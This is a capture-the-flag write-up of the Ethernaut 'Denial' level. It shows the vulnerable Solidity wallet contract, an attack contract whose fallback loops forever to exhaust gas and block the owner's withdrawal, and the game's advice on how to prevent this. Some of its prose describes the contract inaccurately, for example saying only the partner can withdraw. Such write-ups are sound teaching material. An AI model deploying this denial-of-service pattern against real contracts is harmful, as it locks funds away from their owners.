 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Review Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Challenge's message:

> This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner. If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.


The "Denial" contract is a Solidity smart contract that allows for withdrawing funds by a designated partner. It is designed to split the withdrawal into two equal parts, with 1% going to the recipient (designated partner) and 1% going to the owner of the contract. The contract also keeps track of the partner's balances for transparency.

After deploying the contract, the contract owner can call the setWithdrawPartner function to set the withdrawal partner's address. This partner is the only one allowed to initiate withdrawals. Anyone can deposit funds into the contract by simply sending ETH to the contract's address. 

The designated partner can call the withdraw function to withdraw funds from the contract. The function sends 1% of the contract's balance to the partner and 1% to the contract owner. The partner's withdrawal can revert if their contract's logic or requirements are not met, but **this will not affect the owner's share**. The **contractBalance()** function can be used to view the current balance of the contract.

# Subverting

Probably, you discern the transferring process in the contract. At first, the contract sends the amount to the partner's address with the **call() method without any gas limit**. Notice the [level 9](https://github.com/wasny0ps/Ethernaut-Challenges/tree/main/Challenges/King) and [level 10](https://github.com/wasny0ps/Ethernaut-Challenges/tree/main/Challenges/Re-entracy), this vulnerable code is open to reentrancy and uncheck calls returns value vulnerabilities. And then, it uses the transfer() method for sends the amount to the owner.

At this point, we have a chance to trigger some exploits. The challenge wants us to deny the owner from withdrawing funds when they call to withdraw() function (whilst the contract still has funds, and the transaction is of 1M gas or less). So, if we consume the gas while the withdrawing function is called, we will pass the mission.

We can fix this problem with using infinite loop in the fallback. Let's look at this solution in the attack contract.

```solidity
pragma solidity ^0.8.0;

import './Denial.sol';

contract Attack{

    Denial target;

    constructor(address payable _target){
        target = Denial(_target);
        target.setWithdrawPartner(address(this));
    }

    fallback()external payable{
       while(true){

       }
    }

}
```

It is simple attack contract that gives an instance of the target contract's address and set the partner's address as it's address. That's it. Easy right?

After deploy the attack contract, we can submit the instance and hack!

See [in etherscan](https://sepolia.etherscan.io/tx/0x2e4dd5819c5d06e11197c1f502769994f066dbfd3ddcd1f0a1cdfcc85e63d15d).

Ethernaut's message:

> This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified. If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example call.gas(100000).value(). Typically one should follow the [checks-effects-interactions](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise. Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.

**_by wasny0ps_**
